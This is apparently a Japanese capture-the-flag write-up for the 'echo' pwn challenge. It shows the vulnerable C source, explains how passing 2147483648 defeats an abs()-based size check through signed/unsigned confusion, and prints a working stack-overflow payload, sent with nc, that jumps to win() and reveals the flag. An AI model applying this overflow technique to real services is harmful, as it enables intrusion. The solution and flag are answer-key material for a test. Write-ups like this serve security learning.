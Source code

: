 # echo:Warmup:129pts
A service for reachability check.  

[echo.tar.gz](echo.tar.gz)  

`nc 34.170.146.252 17360`  

# Solution
ソースと接続先が渡される。  
```bash
$ nc 34.170.146.252 17360
Size: 6
Data: Satoki
Received: Satoki
```
接続すると`Size`と`Data`を入力でき、`Received`として受け取ったデータが表示される。  
ソースは以下の通りであった。  
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

#define BUF_SIZE 0x100

/* Call this function! */
void win() {
  char *args[] = {"/bin/cat", "/flag.txt", NULL};
  execve(args[0], args, NULL);
  exit(1);
}

int get_size() {
  // Input size
  int size = 0;
  scanf("%d%*c", &size);

  // Validate size
  if ((size = abs(size)) > BUF_SIZE) {
    puts("[-] Invalid size");
    exit(1);
  }

  return size;
}

void get_data(char *buf, unsigned size) {
  unsigned i;
  char c;

  // Input data until newline
  for (i = 0; i < size; i++) {
    if (fread(&c, 1, 1, stdin) != 1) break;
    if (c == '\n') break;
    buf[i] = c;
  }
  buf[i] = '\0';
}

void echo() {
  int size;
  char buf[BUF_SIZE];

  // Input size
  printf("Size: ");
  size = get_size();

  // Input data
  printf("Data: ");
  get_data(buf, size);

  // Show data
  printf("Received: %s\n", buf);
}

int main() {
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
  echo();
  return 0;
}
```
`win`関数が見えるため、BOFでそちらに飛ばす問題だとわかる。  
`get_size`では入力の絶対値が`BUF_SIZE`(`0x100`)を超えている場合に終了してしまう。  
intであるので、最大値より大きい`2147483648`を入力するとオーバーフローにより`-2147483648`となる。  
これに`abs`関数を用いても、なぜかマイナスのままとなり`0x100`との比較を突破できる。  
さらに`get_data`の`size`は`unsigned`であるので、`2147483648`はそのままの数値として扱われる。  
つまりバッファ`0x100`を超えて書き込みができる。  
以下のように`win`へ飛ばせばよい。  
```bash
$ gdb -q ./echo
~~~
pwndbg> disass main
Dump of assembler code for function main:
   0x000000000040139a <+0>:     endbr64
   0x000000000040139e <+4>:     push   rbp
   0x000000000040139f <+5>:     mov    rbp,rsp
~~~
$ echo -e '2147483648\nAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x11\x40\x00' | nc 34.170.146.252 17360
Size: Data: Received: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�@
Alpaca{s1Gn3d_4Nd_uNs1gn3d_s1zEs_c4n_cAu5e_s3ri0us_buGz}
```
flagが得られた。  

## Alpaca{s1Gn3d_4Nd_uNs1gn3d_s1zEs_c4n_cAu5e_s3ri0us_buGz}